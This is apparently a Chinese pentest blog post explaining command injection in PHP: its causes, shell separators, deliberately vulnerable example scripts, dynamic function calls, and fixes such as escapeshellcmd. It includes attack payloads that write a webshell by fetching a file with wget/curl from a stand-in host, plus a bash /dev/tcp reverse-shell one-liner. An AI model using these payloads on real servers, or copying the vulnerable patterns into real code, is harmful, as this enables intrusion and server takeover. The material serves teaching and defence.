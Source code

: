 +++
date = "2016-07-24T14:32:51+08:00"
description = ""
draft = false
tags = ["命令执行"]
title = "命令执行漏洞"
topics = ["Pentest"]

+++

### 0x00 命令执行
> ```
应用有时需要调用一些执行系统命令的函数，如PHP中的system、exec、shell_exec、
passthru、popen、proc_popen等，当用户能控制这些函数中的参数时，就可以将恶意系统命令
拼接到正常命令中，从而造成命令执行攻击，这就是命令执行漏洞。
```

### 0x01 利用条件
1. 应用调用执行系统命令的函数
2. 将用户输入作为系统命令的参数拼接到了命令行中
3. 没有对用户输入进行过滤或过滤不严

### 0x02 漏洞分类
1. 代码层过滤不严  
    商业应用的一些核心代码封装在二进制文件中，在web应用中通过system函数来调用：  
    system("/bin/program \-\-arg $arg");
2. 系统的漏洞造成命令执行  
    bash破壳漏洞(CVE-2014-6271)  
    执行```env x='() { :;}; echo vulnerable' bash -c "echo this is a test"```后  
    若输出vulnerable则证明存在漏洞
3. 调用的第三方组件存在代码执行漏洞  
    如WordPress中用来处理图片的ImageMagick组件  
    JAVA中的命令执行漏洞(struts2/ElasticsearchGroovy等)  
    ThinkPHP命令执行

### 0x03 漏洞危害
1. 继承Web服务程序的权限去执行系统命令或读写文件
2. 反弹shell
3. 控制整个网站甚至控制服务器
4. 进一步内网渗透
5. 等等

### 0x04 漏洞挖掘
> 可以google hacking  
尝试：filetype:action或filetype:do来找struts2

### 0x05 漏洞可能代码(以system为例)
> ```php
1. system("$arg");  //直接输入即可
2. system("/bin/prog $arg");  //直接输入;ls
3. system("/bin/prog -p $arg");  //和2一样
4. system("/bin/prog --p=\"$arg\"");  //可以输入";ls;"
5. system("/bin/prog --p='$arg'");  //可以输入';ls;'

在Linux上，上面的;也可以用|、||、&、&&代替
    ;前面的执行完执行后面的(ping -c 1 10.11.11.11;whoami)
    |是管道符，显示后面的执行结果(ping -c 1 10.11.11.11|whoami)
    ||当前面的执行出错时执行后面的(ping -c 1 a.a.a||whoami)
    &会把前面的放在后台执行，然后执行后面的(ping -c 1 10.11.11.11&whoami)
    &&前面的语句为假则直接出错，后面的也不执行(ping -c 1 10.11.11.11&&whoami)

在Windows上，不能用;可以用|、||、&、&&代替
    |直接执行后面的语句(ping -n 1 10.11.11.11|whoami)
    ||前面出错才执行后面的(ping -n 1 a.a.a||whoami)
    &前面执行完执行后面的(ping -n 1 10.11.11.11&whoami)
    &&前面的语句为假则直接出错，后面的也不执行(ping -n 1 10.11.11.11&&whoami)
```

### 0x06 漏洞利用
* 示例一

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("$arg");
    }
?>
```
{{% fluid_img src="/img/post/command_execution1.png" alt="命令执行示例1.png" %}}

* 示例二

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ping -c 3 $arg");
    }
```
{{% fluid_img src="/img/post/command_execution2.png" alt="命令执行示例2.png" %}}

* 示例三

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al \"$arg\"");
    }
```
{{% fluid_img src="/img/post/command_execution3.png" alt="命令执行示例3.png" %}}
注：若引号被转义，则可以用<b>\`id\`</b>来执行

* 示例四

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al '$arg'");
    }
```
{{% fluid_img src="/img/post/command_execution4.png" alt="命令执行示例4.png" %}}

### 0x07 其他
* 动态函数调用  
在cmd.php中的代码如下：

> ```php
<?php
    $fun = $_GET['fun'];
    $par = $_GET['par'];
    $fun($par);
?>

提交http://localhost/cmd.php?fun=system&par=net user，  
最终执行的是system("net user")
```

### 0x08 关于获取webshell
> **要有写权限！**
```
1.得到当前或绝对路径(可以用pwd)
2.写文件:
    用?cmd=echo "<?php phpinfo()?>" > /var/www/html/info.php
    或?cmd=wget -O /var/www/html/info.php http://www.xx.com/phpinfo.txt
    或?cmd=curl http://www.xx.com/phpinfo.txt > /var/www/html/info.php
```

### 0x09 反弹shell
> ```
远程执行nc -vlp 8888
?cmd=bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
```

### 0x0A 漏洞修复
1. 尽量少用执行命令的函数或者直接禁用
2. 参数值尽量使用引号包括
3. 在使用动态函数之前，确保使用的函数是指定的函数之一
4. 在进入执行命令的函数/方法之前，对参数进行过滤，对敏感字符进行转义

> ```php
<?php
    $arg = $_GET['cmd'];
    // $arg = addslashes($arg);
    $arg = escapeshellcmd($arg);  //拼接前就处理
    if ($arg) {
        system("ls -al '$arg'");
    }
?>
```